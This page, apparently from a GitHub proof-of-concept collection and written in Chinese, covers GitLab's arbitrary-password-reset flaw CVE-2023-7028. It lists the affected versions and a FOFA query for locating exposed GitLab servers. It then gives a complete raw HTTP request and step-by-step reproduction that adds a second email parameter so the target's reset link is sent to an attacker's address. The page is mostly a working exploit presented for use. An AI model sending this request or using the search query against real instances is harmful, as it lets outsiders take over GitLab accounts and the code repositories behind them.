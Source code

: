 ## GitLab任意用户密码重置漏洞(CVE-2023-7028)

2024年1月11日，Gitlab 官方披露 CVE-2023-7028，GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

1、需获取系统已有用户注册邮箱地址

2、满足影响版本

## 影响版本
```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2
```

## fofa
```
app="GitLab"
```

## poc
```
POST /users/password/ HTTP/1.1
Host: g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Origin: https://git.ryzoweba.com
Connection: keep-alive
Cookie: _gitlab_session=78331028df93ce92682f77ac91945004; preferred_language=en
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

authenticity_token=Ok6w7Wt0FwKeOCci9ucskZWrjRDDV0kYkwlSOIrGQmmQ2fk5k3vsH-8vM5UIiGn-0tpJ9D78SUb-9AT1TZ8VfA&user%5Bemail%5D=目标邮箱&user[email][]=攻击者邮箱
```

## 漏洞复现
访问找回密码页面：/users/password/new
![2af3cf985729d3808db6273dcc07b84b](https://github.com/wy876/POC/assets/139549762/f48c3792-5d70-4cea-a2f5-1ac3a1e3af6e)

填写被找回邮箱地址，然后点击抓包
![7d63bb3712a59358211cd86b02d52674](https://github.com/wy876/POC/assets/139549762/5fb2529f-50a5-44ce-923a-ad6f7b1eb631)

修改请求包为：user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址
![f7080e955aa0be982d53c73f2d817696](https://github.com/wy876/POC/assets/139549762/71fb4d67-891b-4388-a059-7b609605ff2b)

![3dd9cf887b37a83c2d1e7290f2e1b78f](https://github.com/wy876/POC/assets/139549762/ba695d81-ae4d-4fc8-b35b-27074a5973d3)


## 漏洞来源
- https://mp.weixin.qq.com/s/fFjOhcjtYh-hYsdYDsCA1Q
  
